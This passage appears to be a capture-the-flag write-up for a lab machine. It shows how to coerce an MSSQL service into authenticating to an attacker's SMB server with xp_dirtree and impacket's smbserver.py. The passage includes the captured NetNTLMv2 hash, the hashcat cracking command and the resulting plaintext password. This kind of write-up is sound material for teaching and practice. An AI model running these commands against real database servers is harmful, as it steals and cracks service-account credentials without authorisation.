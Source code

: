 After a lot of digging around, I came across [this blog post](https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478) by markmotig. It highlights a specific trick for intercepting netntlm hashes by smb authentication. Checking our permissions, it looks like we can use `xp_dirtree`

In short:

- Use impacket's `smbserver.py` to host an smb server.
- Use `xp_dirtree` to make an smb connection back to the our machine
- `smbserver.py` captures the netntlm hash created from sql authenticating to our machine
- crack the captured hash

SMBServer

`smbserver.py TMP /tmp -smb2support`

```
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

SQL Server

`xp_dirtree '\\10.10.14.2\TMP'`

After establishing a connection to our smb server, the netntlm hash is captured

```
[*] Incoming connection (10.10.10.125,49678)
[*] AUTHENTICATE_MESSAGE (QUERIER\mssql-svc,QUERIER)
[*] User mssql-svc\QUERIER authenticated successfully
[*] mssql-svc::QUERIER:4141414141414141:79154d94412028581c89f45588862646:010100000000000080c409343904d5013e842d3ac9eee5ff000000000100100048004f0052004a006700740078006b0002001000510057006c00710058006c00620072000300100048004f0052004a006700740078006b0004001000510057006c00710058006c00620072000700080080c409343904d50106000400020000000800300030000000000000000000000000300000c19dccfde6e330756037bc6ac9c7996d8f6cccb16c1f6a4821a0c02b0e790d170a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003900000000000000000000000000
```

Now we can just crack the captured hash. I'm used hashcat with the rockyou wordlist

`hashcat -m 5600 hashes /usr/share/wordlists/rockyou.txt --show`
```
MSSQL-SVC::QUERIER:4141414141414141:ef8e80daa1aa48d69eaff60920b58609:010100000000000000150b634402d501fc340a1abc4aa3370000000001001000570049004b007500440049006b004e00020010006c004700590051005100670065006c0003001000570049004b007500440049006b004e00040010006c004700590051005100670065006c000700080000150b634402d50106000400020000000800300030000000000000000000000000300000b43c8d61a8e1e38bbcd2e53652f6bd0798b1980a15f986f49dc33585e8c4c1820a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003200000000000000000000000000:corporate568
```

Creds:
